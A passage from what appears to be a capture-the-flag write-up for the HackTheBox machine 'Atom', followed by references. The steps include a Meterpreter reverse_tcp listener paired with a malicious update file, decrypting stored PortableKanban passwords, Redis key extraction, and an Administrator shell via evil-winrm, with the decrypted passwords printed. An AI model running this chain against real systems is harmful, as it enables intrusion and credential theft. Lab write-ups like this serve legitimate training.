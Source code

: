 ```
	4. Start msfconsole listener: `msfconsole -x "use multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost tun0; set lport 443; run"`
	5. Upload latest.yml to SMB share
	6. Wait for shell, shell as `jason`
7. user.txt
8. Go find redis encrypted password in `C:\Users\jason\Downloads\PortableKanban\>`
9. Decrypt password
	1. Save encrypted password to file
	2. Modify script to work with our file instead of JSON
	3. Run script to get password: `python3 my_decrypt redis_admin.txt`
	4. Decrypted: `kidvscat_yes_kidvscat`
10. Install `redis-cli` on kali
11. `redis-cli -h atom.htb -a 'kidvscat_yes_kidvscat'` to auth to the redis server
12. Get admin password from Redis
	1. choose first database: `select 0` (this is the default)
	2. list keys: `keys *`
	3. get value for given key: `get "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"`
	4. copy "EncryptedPassword" from the output to a file `redis_admin.txt`
13. Decrypt admin password with same script: `python3 my_decrypt redis_admin.txt`
	1. Decrypted: `kidvscat_admin_@123`
14. Get shell: `evil-winrm -i atom.htb -u Administrator`
	1. Enter password when prompted
15. root.txt
```

## >> REFERENCES

In the actual post:  
[https://www.nobelprize.org/prizes/physics/1921/ceremony-speech/](https://www.nobelprize.org/prizes/physics/1921/ceremony-speech/)  
[https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)  
[https://www.electron.build/auto-update](https://www.electron.build/auto-update)  
[https://resources.infosecinstitute.com/topic/fail-open-authentication/](https://resources.infosecinstitute.com/topic/fail-open-authentication/)  
[https://www.n00py.io/2018/08/bypassing-duo-two-factor-authentication-fail-open/](https://www.n00py.io/2018/08/bypassing-duo-two-factor-authentication-fail-open/)  
[https://www.exploit-db.com/exploits/49409](https://www.exploit-db.com/exploits/49409)  
[https://redis.io/topics/data-types-intro](https://redis.io/topics/data-types-intro)  
[https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#ssrf-talking-to-redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#ssrf-talking-to-redis)  

Extra reading:  
[https://medium.com/@johndyer24/creating-and-deploying-an-auto-updating-electron-app-for-mac-and-windows-using-electron-builder-6a3982c0cee6](https://medium.com/@johndyer24/creating-and-deploying-an-auto-updating-electron-app-for-mac-and-windows-using-electron-builder-6a3982c0cee6)  
